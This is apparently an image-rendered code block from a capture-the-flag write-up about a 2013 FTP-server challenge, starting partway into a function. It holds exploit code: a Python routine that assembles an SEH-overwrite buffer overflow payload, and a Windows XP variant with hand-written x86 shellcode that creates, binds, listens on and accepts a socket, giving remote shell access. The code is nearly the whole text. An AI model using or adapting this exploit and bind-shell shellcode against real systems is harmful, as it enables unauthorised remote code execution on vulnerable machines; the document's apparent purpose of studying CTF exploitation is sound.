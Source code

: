 ``` python Final Exploit

  command  = ""
  command += "Z" * sc_offset
  command += shellcode[0:sc_len]
  command += "B" * (nseh_offset - len(command))
  command += "\xEB\xAA\x90\x90" # jmp back to sc_offset start
  command += ppr
  command += "E" * 100

  return command

def windows_xp(target):
  max_size = 365

  offsets = {
    'SC': 266,
    'EIP': 294,
    'ESP': 302,
  }

  block1  = ""
  # Adjust the stack to prevent it from breaking things in our shellcode
  block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
  # Get the address of `socket` into EBX
  block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
  block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
  # set up the stack for the call to `socket`
  block1 += "\xB0\x06"                           # MOV AL, 0x6
  block1 += "\x50"                               # PUSH EAX
  block1 += "\xB0\x01"                           # MOV AL, 0x1
  block1 += "\x50"                               # PUSH EAX
  block1 += "\x40"                               # INC EAX
  block1 += "\x50"                               # PUSH EAX
  # invoke the call to `socket`
  block1 += "\xFF\xD3"                           # CALL EBX
  # save our socket handle
  block1 += "\x89\xC7"                           # MOV EDI, EAX
  # Find sockaddr
  block1 += "\x89\xD9"                           # MOV ECX, EBX
  block1 += "\xB5\x74"                           # MOV CH, 0x74
  # adjust the port number by bumping it up one to 22
  block1 += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
  # adjust the call pointer to reference `bind`
  block1 += "\xB3\x54"                           # MOV BL, 0x54
  # prepare the parameters on the stack for the `bind` call
  block1 += "\x6A\x10"                           # PUSH 0x10
  block1 += "\x51"                               # PUSH ECX
  block1 += "\x50"                               # PUSH EAX
  # invoke the call to `bind`
  block1 += "\xFF\xD3"                           # CALL EBX
  # adjust the call pointer to reference `listen`
  block1 += "\xB3\x5C"                           # MOV BL, 0x5C
  # prepare the parameters on the stack for the `listen` call
  block1 += "\x6A\x7F"                           # PUSH 0x7F
  block1 += "\x57"                               # PUSH EDI
  # invoke the call to `listen`
  block1 += "\xFF\xD3"                           # CALL EBX
  # adjust the call pointer to reference `accept`
  block1 += "\xB3\x24"                           # MOV BL, 0x24
  # prepare the parameters on the stack for the `accept` call
  block1 += "\x57"                               # PUSH EDI
  # invoke the call to `accept`
  block1 += "\xFF\xD3"                           # CALL EBX
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization